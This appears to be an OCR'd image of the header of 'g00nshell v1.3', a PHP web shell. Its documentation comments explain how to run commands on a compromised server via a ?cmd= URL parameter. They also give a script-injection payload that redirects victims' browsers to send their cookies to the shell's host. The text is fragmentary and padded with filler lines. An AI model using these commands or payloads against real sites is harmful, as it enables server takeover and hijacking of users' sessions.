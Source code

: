 #                       [g00n]FiSh presents:                         #
#                       g00nshell v1.3 final                         #

###
###
###
###
###
###
###
###
###
###
###
###
###
###DOCUMENTATION
###
###
###
###
###
###
###
###
###
###
###
###
###
####
#To execute commands, simply include ?cmd=___ in the url.            #
#Ex: http://site.com/shl.php?cmd=whoami                              #
#                                                                    #
#To steal cookies, use ?cookie=___ in the url.                       #
#Ex: &lt;script&gt;document.location.href=                                 #
#'http://site.com/shl.php?cookie='+document.cookies&lt;/script&gt;         #

###
###
###
###
###
###
###
###
###
###
###
###
###VERIFICATION LEVELS
###
###
###
###
###
###

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell.png